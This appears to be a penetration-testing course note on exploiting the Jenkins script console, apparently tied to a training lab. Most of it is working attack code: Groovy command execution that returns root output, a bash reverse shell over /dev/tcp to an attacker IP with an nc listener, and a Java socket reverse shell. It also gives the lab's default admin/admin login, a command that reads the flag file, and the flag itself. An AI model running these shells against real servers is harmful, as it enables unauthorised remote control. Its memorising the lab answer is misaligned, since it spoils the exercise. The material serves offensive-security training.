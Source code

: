 # Attacking Jenkins

The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.

## Script Console

http://jenkins.inlanefreight.local:8000/script

--> This console allows a user to run Apache Groovy scripts

## Direct web shell

def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout

uid=0(root) gid=0(root) groups=0(root)


### Reverse shell

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

nc -lvnp 8443

### Windows : attempt to add a user and connect to the host via RDP or WinRM

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");

String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

## Miscellaneous Vulnerabilities

One recent exploit combines two vulnerabilities, CVE-2018-1999002 and CVE-2019-1003000 to achieve pre-authenticated remote code execution :

https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266


## LAB

IP=10.129.201.58
printf "%s\t%s\n\n" "$IP" "jenkins.inlanefreight.local" | sudo tee -a /etc/hosts

http://jenkins.inlanefreight.local:8000/login?from=%2F

admin
admin

http://jenkins.inlanefreight.local:8000/script

def cmd = 'cat /var/lib/jenkins3/flag.txt'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout

f33ling_gr00000vy!
